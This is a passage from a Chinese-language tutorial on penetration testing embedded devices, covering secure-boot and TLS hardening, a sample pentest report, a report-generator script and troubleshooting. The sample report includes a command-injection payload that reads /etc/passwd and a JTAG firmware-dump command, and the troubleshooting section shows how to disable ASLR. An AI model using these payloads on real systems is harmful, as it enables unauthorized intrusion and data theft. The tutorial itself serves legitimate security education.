    if (verify_firmware_signature(firmware, sig->size, sig) != 0) {
        printf("Error: Firmware verification failed!\n");
        printf("System halted for security.\n");
        
        // 停止启动
        while (1) {
            HAL_GPIO_TogglePin(LED_GPIO_Port, LED_Pin);
            HAL_Delay(100);
        }
    }
    
    // 2. 签名验证通过,跳转到应用程序
    printf("Firmware verified, starting application...\n");
    
    typedef void (*app_entry_t)(void);
    app_entry_t app_entry = (app_entry_t)(*(uint32_t *)(firmware + 4));
    
    // 设置栈指针
    __set_MSP(*(uint32_t *)firmware);
    
    // 跳转到应用程序
    app_entry();
}
```

#### 5.3 网络层面加固

**1. 使用TLS/DTLS加密通信**:

```c
// 强制使用加密通信

void enforce_secure_communication(void) {
    // 1. 禁用不安全的协议
    disable_telnet();   // 禁用Telnet
    disable_http();     // 禁用HTTP
    disable_ftp();      // 禁用FTP
    
    // 2. 只启用安全协议
    enable_ssh();       // 启用SSH
    enable_https();     // 启用HTTPS
    enable_sftp();      // 启用SFTP
    
    // 3. 配置TLS参数
    configure_tls_security();
}

void configure_tls_security(void) {
    // 只允许TLS 1.2及以上版本
    mbedtls_ssl_conf_min_version(&conf,
                                 MBEDTLS_SSL_MAJOR_VERSION_3,
                                 MBEDTLS_SSL_MINOR_VERSION_3);
    
    // 只允许强加密套件
    const int ciphersuites[] = {
        MBEDTLS_TLS_ECDHE_RSA_WITH_AES_256_GCM_SHA384,
        MBEDTLS_TLS_ECDHE_RSA_WITH_AES_128_GCM_SHA256,
        0  // 结束标记
    };
    mbedtls_ssl_conf_ciphersuites(&conf, ciphersuites);
    
    // 要求证书验证
    mbedtls_ssl_conf_authmode(&conf, MBEDTLS_SSL_VERIFY_REQUIRED);
}
```

**2. 实施访问控制**:

```c
// IP白名单访问控制

#define MAX_WHITELIST 10

typedef struct {
    uint32_t ip_address;
    uint32_t netmask;
} ip_whitelist_entry_t;

static ip_whitelist_entry_t whitelist[MAX_WHITELIST];
static int whitelist_count = 0;

// 添加IP到白名单
void add_to_whitelist(uint32_t ip, uint32_t netmask) {
    if (whitelist_count < MAX_WHITELIST) {
        whitelist[whitelist_count].ip_address = ip;
        whitelist[whitelist_count].netmask = netmask;
        whitelist_count++;
    }
}

// 检查IP是否在白名单中
int is_ip_allowed(uint32_t client_ip) {
    for (int i = 0; i < whitelist_count; i++) {
        uint32_t network = whitelist[i].ip_address & whitelist[i].netmask;
        uint32_t client_network = client_ip & whitelist[i].netmask;
        
        if (network == client_network) {
            return 1;  // 允许
        }
    }
    
    return 0;  // 拒绝
}

// 在接受连接前检查
void handle_connection(uint32_t client_ip) {
    if (!is_ip_allowed(client_ip)) {
        printf("Access denied for IP: %d.%d.%d.%d\n",
               (client_ip >> 24) & 0xFF,
               (client_ip >> 16) & 0xFF,
               (client_ip >> 8) & 0xFF,
               client_ip & 0xFF);
        return;
    }
    
    // 处理连接
    process_client_request();
}
```


### 步骤6: 编写渗透测试报告

渗透测试完成后,需要编写详细的报告。

#### 6.1 报告结构

```markdown
# 嵌入式设备渗透测试报告

## 1. 执行摘要

### 1.1 测试概述
- 测试日期: 2024-01-15
- 测试人员: 安全团队
- 测试设备: STM32F407智能设备
- 测试范围: 硬件接口、固件、网络服务

### 1.2 主要发现
- 发现高危漏洞: 3个
- 发现中危漏洞: 5个
- 发现低危漏洞: 8个

### 1.3 风险评估
- 整体风险等级: 高
- 建议立即修复高危漏洞

## 2. 测试方法

### 2.1 测试范围
- 硬件接口安全测试
- 固件安全分析
- 网络服务安全测试
- 认证授权测试

### 2.2 测试工具
- OpenOCD
- Ghidra
- Binwalk
- Nmap
- 自定义脚本

## 3. 漏洞详情

### 3.1 高危漏洞

#### 漏洞1: JTAG调试接口未保护
- **严重程度**: 高
- **CVSS评分**: 9.1
- **描述**: JTAG调试接口未禁用,攻击者可以通过物理访问读取Flash内容
- **影响**: 固件可被完整提取,包括加密密钥和敏感数据
- **复现步骤**:
  1. 连接JTAG调试器到目标设备
  2. 使用OpenOCD连接
  3. 执行`flash read_bank 0 dump.bin 0 0x100000`
  4. 成功读取完整固件
- **修复建议**:
  - 启用Flash读保护(RDP Level 1)
  - 禁用JTAG接口
  - 在PCB上移除JTAG引脚

#### 漏洞2: Web管理界面存在命令注入
- **严重程度**: 高
- **CVSS评分**: 8.8
- **描述**: Web管理界面的ping功能存在命令注入漏洞
- **影响**: 攻击者可以执行任意系统命令
- **复现步骤**:
  1. 访问http://192.168.1.100/ping
  2. 输入: `127.0.0.1; cat /etc/passwd`
  3. 系统执行命令并返回/etc/passwd内容
- **修复建议**:
  - 对用户输入进行严格验证
  - 使用白名单过滤特殊字符
  - 避免直接调用system()函数

### 3.2 中危漏洞

#### 漏洞3: 使用默认凭证
- **严重程度**: 中
- **CVSS评分**: 6.5
- **描述**: Web管理界面使用默认用户名密码admin/admin
- **影响**: 攻击者可以轻易获取管理权限
- **修复建议**:
  - 强制用户首次登录时修改密码
  - 实施强密码策略
  - 添加账户锁定机制

## 4. 修复建议

### 4.1 立即修复(高危)
1. 启用Flash读保护
2. 修复命令注入漏洞
3. 禁用JTAG接口

### 4.2 短期修复(中危)
1. 修改默认凭证
2. 实施访问控制
3. 启用TLS加密

### 4.3 长期改进(低危)
1. 实施安全启动
2. 添加入侵检测
3. 定期安全审计

## 5. 附录

### 5.1 测试证据
- 截图
- 日志文件
- 利用代码

### 5.2 参考资料
- OWASP IoT Top 10
- CWE常见漏洞列表
```

#### 6.2 自动化报告生成

```python
#!/usr/bin/env python3
# generate_report.py - 自动生成渗透测试报告

from datetime import datetime
import json

class PentestReport:
    """渗透测试报告生成器"""
    
    def __init__(self):
        self.vulnerabilities = []
        self.test_info = {}
    
    def add_vulnerability(self, vuln):
        """添加漏洞"""
        self.vulnerabilities.append(vuln)
    
    def set_test_info(self, info):
        """设置测试信息"""
        self.test_info = info
    
    def calculate_risk_score(self):
        """计算总体风险评分"""
        high = sum(1 for v in self.vulnerabilities if v['severity'] == 'High')
        medium = sum(1 for v in self.vulnerabilities if v['severity'] == 'Medium')
        low = sum(1 for v in self.vulnerabilities if v['severity'] == 'Low')
        
        score = high * 10 + medium * 5 + low * 1
        
        if score >= 30:
            return "Critical"
        elif score >= 15:
            return "High"
        elif score >= 5:
            return "Medium"
        else:
            return "Low"
    
    def generate_markdown(self):
        """生成Markdown格式报告"""
        
        report = f"""# 嵌入式设备渗透测试报告

## 执行摘要

**测试日期**: {self.test_info.get('date', datetime.now().strftime('%Y-%m-%d'))}
**测试人员**: {self.test_info.get('tester', 'Security Team')}
**目标设备**: {self.test_info.get('target', 'Unknown')}
**总体风险**: {self.calculate_risk_score()}

### 漏洞统计

| 严重程度 | 数量 |
|---------|------|
"""
        
        high = sum(1 for v in self.vulnerabilities if v['severity'] == 'High')
        medium = sum(1 for v in self.vulnerabilities if v['severity'] == 'Medium')
        low = sum(1 for v in self.vulnerabilities if v['severity'] == 'Low')
        
        report += f"| 高危 | {high} |\n"
        report += f"| 中危 | {medium} |\n"
        report += f"| 低危 | {low} |\n\n"
        
        report += "## 漏洞详情\n\n"
        
        for i, vuln in enumerate(self.vulnerabilities, 1):
            report += f"### 漏洞{i}: {vuln['title']}\n\n"
            report += f"- **严重程度**: {vuln['severity']}\n"
            report += f"- **CVSS评分**: {vuln.get('cvss', 'N/A')}\n"
            report += f"- **描述**: {vuln['description']}\n"
            report += f"- **影响**: {vuln['impact']}\n"
            report += f"- **修复建议**: {vuln['remediation']}\n\n"
        
        return report
    
    def save_report(self, filename):
        """保存报告"""
        report = self.generate_markdown()
        
        with open(filename, 'w', encoding='utf-8') as f:
            f.write(report)
        
        print(f"[+] 报告已保存: {filename}")

# 使用示例
if __name__ == "__main__":
    report = PentestReport()
    
    # 设置测试信息
    report.set_test_info({
        'date': '2024-01-15',
        'tester': '安全团队',
        'target': 'STM32F407智能设备'
    })
    
    # 添加漏洞
    report.add_vulnerability({
        'title': 'JTAG调试接口未保护',
        'severity': 'High',
        'cvss': 9.1,
        'description': 'JTAG调试接口未禁用',
        'impact': '固件可被完整提取',
        'remediation': '启用Flash读保护'
    })
    
    # 生成报告
    report.save_report('pentest_report.md')
```


## 验证方法

完成本教程后,通过以下方法验证学习效果:

### 1. 固件分析验证

**任务**: 分析提供的测试固件

```bash
# 下载测试固件
wget https://example.com/test_firmware.bin

# 使用Binwalk分析
binwalk test_firmware.bin

# 提取文件系统
binwalk -e test_firmware.bin

# 查找敏感信息
strings test_firmware.bin | grep -i "password\|key\|secret"
```

**预期结果**:
- 能够识别固件结构
- 成功提取文件系统
- 发现至少2个敏感信息

### 2. 接口安全测试验证

**任务**: 测试开发板的串口接口

```python
# 使用提供的扫描脚本
python3 uart_scanner.py /dev/ttyUSB0

# 测试命令注入
python3 uart_injection.py /dev/ttyUSB0 115200
```

**预期结果**:
- 正确识别串口参数
- 发现可用的命令
- 识别潜在的安全问题

### 3. 漏洞利用验证

**任务**: 利用缓冲区溢出漏洞

```python
# 编译存在漏洞的程序
arm-none-eabi-gcc -o vulnerable vulnerable.c

# 运行利用脚本
python3 exploit_overflow.py
```

**预期结果**:
- 成功触发溢出
- 控制程序执行流
- 获取shell访问

### 4. 报告编写验证

**任务**: 编写完整的渗透测试报告

**要求**:
- 包含执行摘要
- 详细的漏洞描述
- 明确的修复建议
- 附带测试证据

**评估标准**:
- 报告结构完整
- 漏洞描述清晰
- 修复建议可行
- 证据充分有效


## 故障排除

### 问题1: OpenOCD无法连接到目标

**症状**:
```
Error: init mode failed (unable to connect to the target)
```

**原因**:
- 调试器连接不正确
- 目标设备未供电
- 读保护已启用

**解决方法**:
```bash
# 1. 检查连接
# 确认SWDIO、SWCLK、GND连接正确

# 2. 检查供电
# 使用万用表测量3.3V电压

# 3. 尝试不同的复位配置
openocd -f interface/stlink.cfg \
        -c "transport select hla_swd" \
        -c "set WORKAREASIZE 0x2000" \
        -f target/stm32f4x.cfg \
        -c "reset_config srst_only"

# 4. 如果是读保护问题
# 需要执行芯片擦除(会丢失所有数据)
openocd -f stm32f4.cfg -c "init; reset halt; stm32f4x unlock 0; exit"
```

### 问题2: Binwalk无法提取文件系统

**症状**:
```
WARNING: Extractor.execute failed to run external extractor
```

**原因**:
- 缺少解压工具
- 文件系统加密
- 文件系统损坏

**解决方法**:
```bash
# 1. 安装所需工具
sudo apt install -y squashfs-tools cramfsprogs mtd-utils

# 2. 手动提取
# 查找文件系统偏移
binwalk firmware.bin

# 使用dd提取
dd if=firmware.bin of=filesystem.img bs=1 skip=131072

# 尝试挂载
mkdir /tmp/fs
sudo mount -o loop filesystem.img /tmp/fs

# 3. 如果是加密的
# 需要先找到解密密钥
strings firmware.bin | grep -i "key\|aes\|des"
```

### 问题3: 串口无响应

**症状**:
- 串口连接后无任何输出
- 发送命令无响应

**原因**:
- 波特率不正确
- TX/RX接反
- 串口未启用

**解决方法**:
```bash
# 1. 尝试所有常见波特率
for baud in 9600 19200 38400 57600 115200 230400; do
    echo "Testing $baud..."
    echo -e "\r\n" > /dev/ttyUSB0
    stty -F /dev/ttyUSB0 $baud
    timeout 2 cat /dev/ttyUSB0
done

# 2. 检查连接
# 确认TX连接到RX, RX连接到TX

# 3. 使用逻辑分析仪
# 捕获串口信号,分析波特率和协议

# 4. 尝试不同的终端设置
minicom -D /dev/ttyUSB0 -b 115200
# 或
screen /dev/ttyUSB0 115200
```

### 问题4: 利用脚本执行失败

**症状**:
- 缓冲区溢出未触发
- 程序崩溃但未获得控制

**原因**:
- 偏移计算错误
- 存在栈保护机制
- 地址空间随机化

**解决方法**:
```python
# 1. 重新计算偏移
from pwn import *

# 生成更长的模式
pattern = cyclic(500)

# 发送并观察崩溃地址
# 使用cyclic_find()计算正确偏移

# 2. 检查保护机制
# 使用checksec工具
checksec --file=vulnerable

# 3. 禁用ASLR(测试环境)
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space

# 4. 调整利用策略
# 如果有栈保护,考虑:
# - ROP链
# - 格式化字符串漏洞
# - 堆溢出
```


## 常见问题

### Q1: 渗透测试是否合法?

**A**: 渗透测试必须在授权的情况下进行。未经授权的渗透测试是违法的。确保:
- 获得书面授权
- 明确测试范围
- 遵守法律法规
- 保护测试数据

### Q2: 如何选择渗透测试工具?

**A**: 根据测试目标选择:
- **固件分析**: Binwalk, Ghidra, IDA Pro
- **硬件接口**: OpenOCD, JTAGulator, 逻辑分析仪
- **网络测试**: Nmap, Wireshark, Burp Suite
- **漏洞利用**: Metasploit, pwntools, 自定义脚本

### Q3: 发现漏洞后应该怎么做?

**A**: 遵循负责任的披露流程:
1. 记录漏洞详情
2. 通知设备厂商
3. 给予合理的修复时间(通常90天)
4. 协助验证修复
5. 在修复后公开披露(可选)

### Q4: 如何提高渗透测试技能?

**A**: 持续学习和实践:
- 参加CTF竞赛
- 学习漏洞研究
- 阅读安全博客
- 分析真实案例
- 搭建实验环境
- 获取安全认证(CEH, OSCP等)

### Q5: 嵌入式渗透测试与Web渗透测试有何不同?

**A**: 主要区别:
- **硬件访问**: 嵌入式需要物理访问设备
- **资源限制**: 嵌入式设备资源有限
- **专用协议**: 使用特殊的通信协议
- **固件分析**: 需要逆向工程技能
- **持久化**: 更难建立持久访问


## 总结

本教程介绍了嵌入式系统渗透测试的完整流程,包括:

1. **渗透测试方法论**: 系统化的测试流程和攻击面分析
2. **固件提取与分析**: 多种固件提取方法和静态分析技术
3. **硬件接口测试**: JTAG、串口、网络接口的安全测试
4. **漏洞利用实践**: 缓冲区溢出、命令注入等漏洞的利用
5. **安全加固建议**: 代码、硬件、网络层面的安全加固措施
6. **报告编写**: 专业的渗透测试报告编写方法

通过本教程的学习,你应该能够:
- 独立进行嵌入式设备的安全评估
- 识别和分析常见的安全漏洞
- 提供有效的安全加固建议
- 编写专业的渗透测试报告

**重要提醒**:
- 渗透测试必须在授权下进行
- 遵守法律法规和道德规范
- 保护测试过程中获取的敏感信息
- 负责任地披露发现的漏洞


## 下一步

完成本教程后,建议继续学习:

1. **高级漏洞利用技术**
   - ROP链构造
   - 堆溢出利用
   - 格式化字符串攻击
   - 内核漏洞利用

2. **硬件安全分析**
   - 侧信道攻击
   - 故障注入攻击
   - 电磁分析
   - 芯片解封装

3. **无线协议安全**
   - WiFi安全测试
   - 蓝牙安全分析
   - ZigBee/LoRa安全
   - RFID/NFC安全

4. **安全认证**
   - CEH (Certified Ethical Hacker)
   - OSCP (Offensive Security Certified Professional)
   - GPEN (GIAC Penetration Tester)

5. **相关内容**
   - ISO 26262汽车功能安全
   - 安全芯片(SE/TEE)应用
   - 高可靠性系统设计实战


## 延伸阅读

### 书籍推荐
1. **《The Hardware Hacker》** - Andrew "bunnie" Huang
   - 硬件黑客的实践指南
   
2. **《Practical IoT Hacking》** - Fotios Chantzis等
   - IoT设备渗透测试实战

3. **《The Car Hacker's Handbook》** - Craig Smith
   - 汽车电子系统安全分析

### 在线资源
1. **OWASP IoT Project**
   - https://owasp.org/www-project-internet-of-things/
   - IoT安全最佳实践

2. **Exploit Database**
   - https://www.exploit-db.com/
   - 漏洞利用代码库

3. **Hack The Box**
   - https://www.hackthebox.com/
   - 在线渗透测试练习平台

### 工具资源
1. **Kali Linux**
   - https://www.kali.org/
   - 渗透测试专用Linux发行版

2. **Ghidra**
   - https://ghidra-sre.org/
   - NSA开源的逆向工程工具

3. **Binwalk**
   - https://github.com/ReFirmLabs/binwalk
   - 固件分析工具

### 社区论坛
1. **r/netsec** (Reddit)
   - 网络安全讨论社区

2. **Stack Exchange - Information Security**
   - 信息安全问答社区

3. **GitHub Security Lab**
   - 安全研究和漏洞披露平台


## 参考资料

1. OWASP. (2018). *OWASP IoT Top 10 2018*. Retrieved from https://owasp.org/www-pdf-archive/OWASP-IoT-Top-10-2018-final.pdf

2. NIST. (2020). *Guide to Operational Technology (OT) Security*. NIST Special Publication 800-82 Rev. 2.

3. Zaddach, J., et al. (2014). *AVATAR: A Framework to Support Dynamic Security Analysis of Embedded Systems' Firmwares*. NDSS Symposium.

4. Costin, A., et al. (2014). *A Large-Scale Analysis of the Security of Embedded Firmwares*. USENIX Security Symposium.

5. Ronen, E., & Shamir, A. (2016). *Extended Functionality Attacks on IoT Devices: The Case of Smart Lights*. IEEE European Symposium on Security and Privacy.

---

**文档版本**: 1.0  
**最后更新**: 2024-01-15  
**作者**: 嵌入式知识平台  
**许可**: CC BY-NC-SA 4.0
